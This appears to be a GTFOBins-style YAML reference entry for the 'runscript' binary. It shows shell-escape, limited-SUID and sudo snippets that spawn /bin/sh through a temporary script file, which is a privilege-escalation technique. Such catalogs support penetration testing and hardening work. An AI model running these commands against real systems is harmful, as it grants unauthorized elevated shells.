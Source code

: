 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo '! exec /bin/sh' >$TF
        runscript $TF
  limited-suid:
    - code: |
        TF=$(mktemp)
        echo '! exec /bin/sh' >$TF
        ./runscript $TF
  sudo:
    - code: |
        TF=$(mktemp)
        echo '! exec /bin/sh' >$TF
        sudo runscript $TF
---
```

